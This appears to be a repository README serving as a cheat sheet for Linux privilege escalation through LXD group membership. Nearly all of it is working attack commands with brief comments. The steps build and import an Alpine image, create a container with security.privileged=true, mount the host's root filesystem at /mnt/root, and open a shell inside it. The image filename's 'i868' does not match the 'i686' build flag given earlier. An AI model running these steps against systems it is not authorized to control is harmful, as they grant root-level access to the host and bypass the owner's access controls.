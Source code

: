 # LXD-Privesc-CheatSheet

- if you can't find the git here it is for reference

git clone https://github.com/saghul/lxd-alpine-builder.git
                                                                                                                                                                                                                                           
- first you wanna build the LXD image locally                                                                                                                                                                                                    
                                                                                                                                                                                                                                           
sudo ./build-alpine -a i686    
or
use the one provided given it might be out of date by the time you use it
                                                                                                                                                                                                                                           
- After that is done it will make a gunzip and send that over to the target                                                                                                                                                                 
- Next we will run a slew of commands since we are already in the LXD group                                                                                                                                                                 
- If not you will need to add it to usermod                                                                                                                                                                                                 
- Now we run a slew of commands                                                                                                                                                                                                             
- This makes the LXD image on the target host                                                                                                                                                                                               
                                                                                                                                                                                                                                           
lxc image import alpine-v3.12-i868-20200831_1748.tar.gz --alias temper                                                                                                                                                                     
                                                                                                                                                                                                                                           
- If needed setup a pool                                                                                                                                                                                                                    
lxc storage create pool dir                                                                                                                                                                                                                
lxc profile device add default root disk path=/ pool=pool 

- Next we setup the LXD image on local with escalated priv 
- "temper" is the alias of the image
- "hereiam" is the alias of the escalated container
                                                                                                                                                                                                                                           
lxc init temper hereiam -c security.privileged=true                                                                                                                                                                                        
                                                                                                                                                                                                                                           
- Now you need to add a HD for example sometimes it will be in /mnt/root other times no                                                                                                                                                     
                                                                                                                                                                                                                                           
lxc config device add hereiam host-root disk source=/ path=/mnt/root recursive=true                                                                                                                                                        
                                                                                                                                                                                                                                           
- Lastly we start the LXD                                                                                                                                                                                                                   
                                                                                                                                                                                                                                           
lxc start hereiam                                                                                                                                                                                                                          
lxc exec hereiam /bin/sh    
